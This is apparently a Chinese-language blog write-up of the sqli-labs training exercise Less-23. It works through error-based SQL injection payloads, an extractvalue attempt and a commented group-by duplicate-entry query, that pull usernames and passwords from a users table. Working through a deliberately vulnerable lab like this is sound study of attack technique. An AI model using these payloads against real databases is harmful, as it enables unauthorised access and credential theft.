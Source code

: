 ```yaml
---
title: 'sqli-labs 实验记录 #4'
slug: sqli-labs-training-4
date: 2022-05-12 17:23:32
categories:
- security
tags:
- security
- sqli
- sqli-labs
---
```


## 前言

惯例的前言，虽然没什么可说的。本篇从 page-2 开始，page-2 开头还是 21/22 这两题，base64 编码加上引号注入即可完成。正文从 23 开始。

## Less-23

提示 error based, no comments。所以应该是屏蔽了 `--`、`#`和`/**/`，所以注入要看SQL注入位置的后半句SQL怎么写的了。

尝试用 `extractvalue` 攻击发现不行。

```
?id=1' and extractvalue(1,concat('~',password)) or '1'='1
```

错误：`Only constant XPATH queries are supported`，`updatexml`也是一样。换成 `group by` 法攻击（仅限 MySQL < 5.7.36）。注入`1'`确认后面跟着的是`LIMIT 0,1`。

手工调试出一个预期的SQL：

```sql
select 
	*
from 
	-- 从 1' and 开始承接原查询
	id='1' and 
	(
        select 
     		123 -- 子查询包装，把子查询确保 payload 不影响原查询。
        from 
        	(
                select 
                	count(*), 
                	concat(
                    	(select concat(username,'~',password) from users limit 0,1), 
                        -- 拼接如 username~password 的字符串，limit 避免子查询返回多行出错，也可枚举所有行。目的都是确保能触发 duplicate entry
                    	'~',
                    	floor(rand(14)*2)
                    ) x 
                from 
                	(select 1 union all select 2)
                	-- 构造个临时表，两行就够
                group by 
                	x -- 在这里触发 duplicate entry 错误
            ) x -- 避免 Every derived table must have its own alias 错误
    ) and 
    '1'='1' -- 承接原查询的单引号，后面就是原查询的剩余部分了。
limit 
	0,1;
```

